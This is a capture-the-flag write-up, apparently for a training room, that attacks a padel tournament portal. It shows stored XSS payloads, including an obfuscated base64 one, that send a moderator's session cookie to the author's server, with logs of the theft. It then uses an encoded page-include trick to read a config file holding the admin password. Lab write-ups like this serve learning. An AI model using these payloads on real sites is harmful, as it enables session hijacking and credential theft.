




# Padelify

Testing around the app, I found this message:



When you submit a registration, it says a moderator will review it. Because this is a CTF I am guessing this is XSS and the “moderator” is actively looking at the submissions.

I started the python server:

```
20:40:55 ~/Code/tryhackme [main]
➤ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And I tried with a payloads similar to a previous room:

```


<a href="ja
vascript:\u0065val(\u0061tob(&quot;ZmV0Y2goJ2h0dHA6Ly8xOTIuMTY4LjEzNS4yNTE6ODAwMC8/Y2U9JytidG9hKGRvY3VtZW50LmNvb2tpZSkp&quot;))">test</a>
```

But it didn’t work, trying other options, this worked:

```
<script src="http://192.168.135.251:8000/get_cookie.js"></script>
```

And I got the cookie:

```
10.66.135.213 - - [21/Jan/2026 20:41:59] "GET /get_cookie.js HTTP/1.1" 200 -
10.66.135.213 - - [21/Jan/2026 20:42:00] code 404, message File not found
10.66.135.213 - - [21/Jan/2026 20:42:00] "GET /steal?cookie=PHPSESSID=7r7uom7crk9uupf259m8986dv6 HTTP/1.1" 404 -
10.66.135.213 - - [21/Jan/2026 20:42:05] code 404, message File not found
10.66.135.213 - - [21/Jan/2026 20:42:05] "GET /steal?cookie=PHPSESSID=7r7uom7crk9uupf259m8986dv6 HTTP/1.1" 404 -
```

Replacing it in the browser:



Now, the link live seems suspicious

```
<li class="nav-item"><a class="nav-link" href="live.php?page=match.php">Live</a></li>
```

That nested loading is never good, so I try to load the configuration I found in the logs <http://10.66.135.213/logs/error.log>

```
[Sat Nov 08 12:03:11.123456 2025] [info] [pid 2345] Server startup: Padelify v1.4.2
[Sat Nov 08 12:03:11.123789 2025] [notice] [pid 2345] Loading configuration from /var/www/html/config/app.conf
[Sat Nov 08 12:05:02.452301 2025] [warn] [modsec:99000005] [client 10.10.84.50:53122] NOTICE: Possible encoded/obfuscated XSS payload observed
[Sat Nov 08 12:08:12.998102 2025] [error] [pid 2361] DBWarning: busy (database is locked) while writing registrations table
[Sat Nov 08 12:11:33.444200 2025] [error] [pid 2378] Failed to parse admin_info in /var/www/html/config/app.conf: unexpected format
[Sat Nov 08 12:12:44.777801 2025] [notice] [pid 2382] Moderator login failed: 3 attempts from 10.10.84.99
[Sat Nov 08 12:13:55.888902 2025] [warn] [modsec:41004] [client 10.10.84.212:53210] Double-encoded sequence observed (possible bypass attempt)
[Sat Nov 08 12:14:10.101103 2025] [error] [pid 2391] Live feed: cannot bind to 0.0.0.0:9000 (address already in use)
[Sat Nov 08 12:20:00.000000 2025] [info] [pid 2401] Scheduled maintenance check completed; retention=30 days
```

But I got the 403 screen, so I encoded the page, and success:



```
version = "1.4.2"

enable_live_feed = true
enable_signup = true

env = "staging"

site_name = "Padelify Tournament Portal"
max_players_per_team = 4
maintenance_mode = false

log_level = "INFO"
log_retention_days = 30

db_path = "padelify.sqlite"

admin_info = "bL}8,S9W1o44"

misc_note = "do not expose to production" 
support_email = "support@padelify.thm"
build_hash = "a1b2c3d4"
```

And the admin info works:


